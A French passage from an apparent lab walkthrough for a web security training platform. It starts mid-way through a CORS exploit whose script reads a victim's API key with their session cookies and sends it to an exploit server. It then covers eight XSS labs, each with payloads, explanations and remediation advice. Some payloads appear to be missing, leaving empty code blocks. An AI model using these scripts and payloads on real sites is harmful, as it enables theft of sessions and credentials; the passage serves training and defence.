<script>
  fetch("https://LAB-ID.web-security-academy.net/accountDetails", {
    credentials: "include"
  })
  .then(r => r.json())
  .then(data => {
    fetch("https://EXPLOIT-SERVER.exploit-server.net/log?key=" + data.apikey)
  })
</script>
```

⚠️ Le champ s'appelle `apikey` (tout en minuscules) — pas `apiKey`.

**Étape 4 — Deliver to victim**

Cliquer **Deliver exploit to victim**, puis consulter l'**Access log** du serveur d'exploit. Une requête de `10.0.4.x` (la victime) apparaît :

    GET /log?key=OChRQPq4UqhmsHIvQtywQxHHPcwgCnzE HTTP/1.1

**Étape 5 — Soumettre la solution**

Copier l'API key et la soumettre dans le lab → résolu ✅

**Pourquoi ça marche :**

Le navigateur attache automatiquement les cookies de session à la requête `fetch` grâce à `credentials: "include"`. Comme le serveur répond avec `Access-Control-Allow-Origin` égal à l'origine de l'exploit server et `Access-Control-Allow-Credentials: true`, le navigateur de la victime autorise le script à lire la réponse cross-origin — exposant l'`apikey` de l'admin.

**Remédiation :**

- Ne jamais refléter aveuglément le header `Origin` reçu dans `Access-Control-Allow-Origin`.
- Maintenir une liste blanche stricte des origines autorisées.
- Éviter de combiner `Access-Control-Allow-Credentials: true` avec une politique CORS permissive.
- Ne jamais autoriser `Access-Control-Allow-Origin: *` avec des credentials.

[⬆ Sommaire](#sommaire)

## Lab 22 — Stored XSS into HTML context with nothing encoded

**Catégorie :** Cross-Site Scripting (XSS)

**Difficulté :** Apprentice

This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the blog post is viewed.

**Contexte :**

Un XSS stocké (ou persistant) se produit lorsqu'une application enregistre une entrée utilisateur non filtrée dans sa base de données, puis la réaffiche telle quelle dans les pages. Contrairement au XSS réfléchi, la charge malveillante est exécutée automatiquement par tous les visiteurs qui consultent la page infectée — sans qu'ils aient besoin de cliquer sur un lien spécial.

**Résolution :**

On ouvre n'importe quel article de blog et on remplit le formulaire de commentaire. Dans le champ **Comment**, on injecte directement :

    <script>alert()</script>

Les autres champs (Name, Email, Website) peuvent contenir n'importe quelle valeur valide. On soumet le commentaire.

Le site enregistre le commentaire sans aucun encodage ni filtrage. Dès qu'un utilisateur (ou nous-mêmes) consulte la page de l'article, le navigateur interprète la balise `<script>` et exécute `alert()` → lab résolu ✅

**Pourquoi ça marche :**

Le serveur stocke la valeur brute du champ et la réinjecte dans le HTML de la réponse sans l'encoder. Le navigateur interprète donc `<script>alert()</script>` comme du code JavaScript légitime.

**Remédiation :**

- Encoder toutes les sorties HTML (`<` → `&lt;`, `>` → `&gt;`, etc.) avant de les afficher.
- Valider et filtrer les entrées côté serveur.
- Mettre en place une `Content-Security-Policy` stricte qui bloque les scripts inline.

[⬆ Sommaire](#sommaire)

## Lab 23 — DOM XSS in document.write sink using source location.search

**Catégorie :** Cross-Site Scripting (XSS) — DOM-based

**Difficulté :** Apprentice

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.

**Contexte :**

Un XSS DOM-based se produit entièrement côté client : le JavaScript de la page lit une source contrôlable (`location.search`, `location.hash`, etc.) et l'injecte dans un sink dangereux (`document.write`, `innerHTML`, etc.) sans assainissement. Le serveur ne voit jamais le payload — c'est le navigateur lui-même qui crée la vulnérabilité.

Ici, le code de tracking ressemble à :

    document.write('');

**Résolution :**

Dans le champ de recherche, on injecte un payload qui ferme l'attribut `src` de la balise `` générée par `document.write`, puis insère une balise SVG avec un handler `onload` :

    "><svg onload=alert(1)>

Ce qui produit dans le DOM :

    <svg onload=alert(1)>">

Le navigateur ferme la balise `` au premier `"`, interprète `<svg onload=alert(1)>` comme une balise SVG valide et exécute `alert(1)` → lab résolu ✅

**Remédiation :**

- Ne jamais utiliser `document.write` avec des données contrôlées par l'utilisateur.
- Encoder les données avant de les injecter dans le DOM.
- Préférer des méthodes sûres comme `textContent` au lieu de `innerHTML` ou `document.write`.

[⬆ Sommaire](#sommaire)

## Lab 24 — DOM XSS in jQuery anchor href attribute sink using location.search source

**Catégorie :** Cross-Site Scripting (XSS) — DOM-based

**Difficulté :** Apprentice

This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`. To solve this lab, make the "back" link alert `document.cookie`.

**Contexte :**

Le code jQuery de la page de feedback ressemble à :

    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });

Il prend le paramètre `returnPath` de l'URL et le place directement dans l'attribut `href` du lien "back". Si on passe `javascript:...` comme valeur, le navigateur exécutera ce code quand l'utilisateur cliquera sur le lien.

**Résolution :**

Accéder à la page de feedback avec le paramètre `returnPath` contenant un pseudo-protocole JavaScript :

    /feedback?returnPath=javascript:alert(document.cookie)

Puis cliquer sur le lien **"Back"** de la page. Le navigateur interprète le `href` comme une URL `javascript:` et exécute `alert(document.cookie)` → lab résolu ✅

**Remédiation :**

- Valider que les valeurs injectées dans des attributs `href` commencent par `http://` ou `https://`.
- Ne jamais autoriser les pseudo-protocoles `javascript:` ou `data:` dans des URLs contrôlées par l'utilisateur.

[⬆ Sommaire](#sommaire)

## Lab 25 — DOM XSS in jQuery selector sink using a hashchange event

**Catégorie :** Cross-Site Scripting (XSS) — DOM-based

**Difficulté :** Apprentice

This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property. To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

**Contexte :**

Le code vulnérable ressemble à :

    $(window).on('hashchange', function() {
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(location.hash.slice(1)) + ')');
        post.get(0).scrollIntoView();
    });

`$()` avec une chaîne contrôlée par l'utilisateur peut créer des éléments HTML si la chaîne ressemble à du HTML — c'est un sink dangereux dans les anciennes versions de jQuery.

**Résolution :**

On ne peut pas déclencher un `hashchange` depuis la même page (la victime ne va pas modifier l'URL manuellement). Il faut donc utiliser le **serveur d'exploit** pour envoyer un `<iframe>` qui charge la page cible et modifie le hash après chargement via `onload` :

    <iframe src="https://LAB-ID.web-security-academy.net/#" onload="this.src+=''"></iframe>

Quand l'iframe charge, `onload` ajoute `` au hash. jQuery l'interprète comme un sélecteur HTML, crée l'élément ``, tente de charger `src=x` (qui échoue), et déclenche `onerror=print()` → lab résolu ✅

**Deliver to victim** depuis l'exploit server pour valider.

**Remédiation :**

- Mettre à jour jQuery vers une version récente (le comportement de `$()` avec du HTML a été restreint).
- Ne jamais passer `location.hash` ou `location.search` directement dans le sélecteur `$()`.

[⬆ Sommaire](#sommaire)

## Lab 26 — Reflected XSS into attribute with angle brackets HTML-encoded

**Catégorie :** Cross-Site Scripting (XSS)

**Difficulté :** Apprentice

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.

**Contexte :**

Le site encode les caractères `<` et `>` en `&lt;` et `&gt;`, ce qui empêche d'injecter des balises HTML. Cependant, la valeur de recherche est réinjectée à l'intérieur d'un attribut HTML existant, par exemple :

    <input type="text" value="VALEUR_RECHERCHE">

On n'a pas besoin de `<>` pour sortir de l'attribut — un simple `"` suffit à fermer la valeur, puis on ajoute un nouvel attribut directement.

**Résolution :**

Dans le champ de recherche, injecter :

    " onmouseover="alert(1)

Ce qui produit dans le HTML :

    <input type="text" value="" onmouseover="alert(1)">

Il suffit de passer la souris sur le champ de recherche pour déclencher `alert(1)` → lab résolu ✅

**Remédiation :**

- Encoder les guillemets (`"` → `&quot;`) dans les valeurs d'attributs HTML.
- Utiliser des guillemets pour délimiter tous les attributs (pas de valeurs non quotées).

[⬆ Sommaire](#sommaire)

## Lab 27 — Stored XSS into anchor href attribute with double quotes HTML-encoded

**Catégorie :** Cross-Site Scripting (XSS)

**Difficulté :** Apprentice

This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.

**Contexte :**

Dans le formulaire de commentaire, le champ **Website** est injecté dans l'attribut `href` du lien auteur :

    <a href="VALEUR_WEBSITE">Nom auteur</a>

Les guillemets doubles `"` sont encodés, donc on ne peut pas sortir de l'attribut de cette façon. Mais le navigateur accepte les pseudo-protocoles comme `javascript:` directement dans un `href` — aucun `<>` ni `"` n'est nécessaire.

**Résolution :**

Dans le champ **Website** du formulaire de commentaire, entrer :

    javascript:alert(1)

Le site stocke cette valeur et l'injecte dans le `href` du nom d'auteur :

    <a href="javascript:alert(1)">Nom auteur</a>

Quand un visiteur clique sur le nom de l'auteur du commentaire, `alert(1)` s'exécute → lab résolu ✅

**Remédiation :**

- Valider que les URLs soumises dans le champ Website commencent par `http://` ou `https://`.
- Rejeter les pseudo-protocoles `javascript:` et `data:`.
- Encoder la sortie même dans les attributs `href`.

[⬆ Sommaire](#sommaire)

## Lab 28 — DOM XSS in innerHTML sink using source location.search

**Catégorie :** Cross-Site Scripting (XSS) — DOM-based

**Difficulté :** Apprentice

This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a div element, using data from `location.search`. To solve this lab, perform a cross-site scripting attack that calls the alert function.

**Contexte :**

Le code vulnérable ressemble à :

    document.getElementById('searchMessage').innerHTML = location.search.slice(1);

`innerHTML` interprète la valeur comme du HTML, mais **pas** les balises `<script>` (elles ne sont pas exécutées via `innerHTML`). Il faut donc utiliser un élément HTML qui déclenche du JavaScript sans `<script>`, comme une balise `` avec un handler `onerror`.

**Résolution :**

Dans le champ de recherche, injecter :

    

Ce qui produit dans le DOM :

    <div id="searchMessage"></div>

Le navigateur tente de charger l'image depuis `src=1` (qui échoue), ce qui déclenche le handler `onerror` et exécute `alert(1)` → lab résolu ✅

**Remédiation :**

- Ne jamais assigner de données utilisateur à `innerHTML` — utiliser `textContent` à la place.
- Encoder les sorties HTML avant injection dans le DOM.
- Mettre en place une `Content-Security-Policy` qui bloque les handlers inline.

[⬆ Sommaire](#sommaire)

## Lab 29 — Reflected XSS into a JavaScript string with angle brackets HTML encoded

**Catégorie :** Cross-Site Scripting (XSS)

**Difficulté :** Apprentice

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are HTML encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

**Contexte :**

La valeur de recherche est réinjectée à l'intérieur d'une chaîne JavaScript dans un `<script>` de la page, par exemple :

    <script>
        var searchTerms = 'VALEUR_RECHERCHE';
        ...
    </script>

Les `<` et `>` sont encodés en `&lt;`/`&gt;`, donc impossible d'injecter une nouvelle balise. Mais on est **à l'intérieur d'une chaîne JS** — il suffit de la fermer avec un `'`, d'injecter du code, et de commenter la suite.

**Résolution :**

Dans le champ de recherche, injecter :

    '-alert(1)-'

Ce qui produit dans le script :

    var searchTerms = ''-alert(1)-'';

Le parser JS interprète `''` (chaîne vide), puis `-alert(1)-` (expression valide qui appelle `alert`), puis `''` (chaîne vide) → `alert(1)` s'exécute → lab résolu ✅

On peut aussi utiliser :

    ';alert(1)//

Ce qui donne :

    var searchTerms = '';alert(1)//';

**Remédiation :**

- Encoder les apostrophes (`'` → `\'`) dans les chaînes JavaScript.
- Ne jamais injecter de données utilisateur directement dans un bloc `<script>`.
- Utiliser `JSON.stringify()` pour passer des valeurs dans le JS côté serveur.

[⬆ Sommaire](#sommaire)
